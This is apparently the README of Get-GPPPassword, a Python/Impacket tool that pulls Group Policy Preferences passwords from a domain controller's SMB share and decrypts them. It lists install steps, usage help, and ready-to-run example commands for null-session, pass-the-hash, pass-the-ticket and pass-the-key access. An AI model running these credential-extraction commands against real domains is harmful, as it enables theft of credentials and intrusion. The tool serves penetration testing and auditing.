 # Get-GPPPassword

Python script for extracting and decrypting Group Policy Preferences passwords, using Impacket's lib, and using streams for carving files instead of mounting shares

![example GIF](.assets/example.gif)

## Install

This script can be run in standalone (`python3 -m pip install -r requirements.txt`) or added in Impacket (`cd /path/to/impacket; cp Get-GPPPassword.py examples/; python3 -m pip install .`).

## Examples

NULL session

````shell
python3 Get-GPPPassword.py -no-pass domain_controller
````

Username, password

````shell
python3 Get-GPPPassword.py domain.local/someuser:somepassword@domain_controller
````

Pass-the-hash

````shell
python3 Get-GPPPassword.py -hashes [LMhash]:NThash domain.local/someuser@domain_controller
````

Pass-the-ticket

````shell
export KRB5CCNAME=someuser.ccache
python3 Get-GPPPassword.py -k domain_controller
````

Pass-the-key

````shell
python3 Get-GPPPassword.py -aesKey aesKey domain.local/someuser@domain_controller
````

Overpass-the-hash

````shell
python3 Get-GPPPassword.py -k -hashes [LMhash]:NThash domain.local/someuser@domain_controller
````

## Usage

```
usage: Get-GPPPassword.py [-h] [-share SHARE] [-base-dir BASE_DIR] [-ts]
                          [-debug] [-hashes LMHASH:NTHASH] [-no-pass] [-k]
                          [-aesKey hex key] [-dc-ip ip address]
                          [-target-ip ip address] [-port [destination port]]
                          target

Group Policy Preferences passwords finder and decryptor

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>

optional arguments:
  -h, --help            show this help message and exit
  -share SHARE          SMB Share
  -base-dir BASE_DIR    Directory to search in (Default: /)
  -ts                   Adds timestamp to every logging output
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from
                        ccache file (KRB5CCNAME) based on target parameters.
                        If valid credentials cannot be found, it will use the
                        ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256
                        bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it
                        will use the domain part (FQDN) specified in the
                        target parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will
                        use whatever was specified as target. This is useful
                        when target is the NetBIOS name and you cannot resolve
                        it
  -port [destination port]
                        Destination port to connect to SMB Server
```

# Credits

Thanks to :
- [mxrch](https://twitter.com/mxrchreborn) for the code allowing to read files in stream instead of downloading them.
- [Impacket](https://github.com/SecureAuthCorp/impacket) for handling the connections, auth, socket parts.
- [Microsoft](https://www.youtube.com/watch?v=dQw4w9WgXcQ) for [releasing the AES encryption key](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be) for the cpasswords.
- the best, [@podalirius_](https://twitter.com/@podalirius_) for coding almost everything that my 5-year-old brain couldn't.
